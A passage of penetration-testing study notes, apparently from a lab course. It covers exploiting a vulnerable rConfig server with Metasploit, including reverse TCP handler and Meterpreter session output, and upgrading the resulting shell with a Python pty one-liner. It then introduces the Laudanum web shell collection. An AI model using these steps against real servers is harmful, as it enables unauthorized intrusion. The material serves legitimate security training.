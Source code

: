         ```
        [*] Started reverse TCP handler on 10.10.14.111:4444
        [+] The target appears to be vulnerable. Vulnerable version of rConfig found!
        [*] Uploading file 'olxapybdo.php'...
        [*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860)
        
        ```
        
5. **Interacting with the Shell**:
    - **Command**: `meterpreter > shell`
    - **Issue**: Drops into a **non-TTY shell** (no prompt, limited commands) as the `apache` user.
        - Example: Running `dir` works, but `sudo` or `su` may fail.
    - **Why?**: The `apache` user isn’t set up for interactive shells, as it’s meant for running the web server, not user logins.
6. **Spawning a TTY Shell with Python**:
    - **Check for Python**: `which python` (confirms Python is installed).
    - **Command**: `python -c 'import pty; pty.spawn("/bin/sh")'`
    - **What It Does**: Uses Python’s `pty` module to spawn an interactive Bourne shell (`/bin/sh`).
    - **Result**: Interactive shell with a prompt (`sh-4.2$`). Confirm user with `whoami` (returns `apache`).
    - **Why Important?**: Enables advanced commands and prepares for privilege escalation.

### Key Takeaways

- **Enumeration**: Use Nmap to find services and versions, guiding your attack plan.
- **Research**: Search for vulnerabilities (Google, Exploit-DB) to identify exploits.
- **Metasploit**: Simplifies exploitation but may require manual module installation.
- **Shell Upgrading**: Non-TTY shells are limited; use Python to spawn a TTY shell for full functionality.
- **User Context**: The `apache` user has limited permissions, so plan for privilege escalation.
- Practice this workflow (enumerate, exploit, upgrade shell) on platforms like Hack The Box.

---

# Laudanum Web Shell Notes

## Overview: What is Laudanum?

- **Definition**: Laudanum is a collection of pre-made files (scripts) designed for penetration testers to inject into vulnerable web servers. These files allow you to:
    - Gain a **web shell** to run commands on the server via a browser.
    - Set up a **reverse shell** for a direct connection back to your machine.
    - Perform other malicious actions (e.g., file uploads, system reconnaissance).
- **Supported Languages**: Includes scripts for multiple web application languages:
    - ASP (Active Server Pages).
    - ASPX (ASP.NET).
    - JSP (JavaServer Pages).
    - PHP (Hypertext Preprocessor).
    - And more.
- **Why Important?**: Laudanum is a go-to tool for pentesters because it provides ready-to-use payloads, saving time when exploiting web vulnerabilities.
- **Availability**:
    - Built into **Parrot OS** and **Kali Linux** by default (found in `/usr/share/laudanum`).
    - For other Linux distributions, download it from the official repository (link provided in the PDF).
- **Use Case**: If you find a web application with a file upload vulnerability, you can use a Laudanum script to upload a web shell and control the server.

---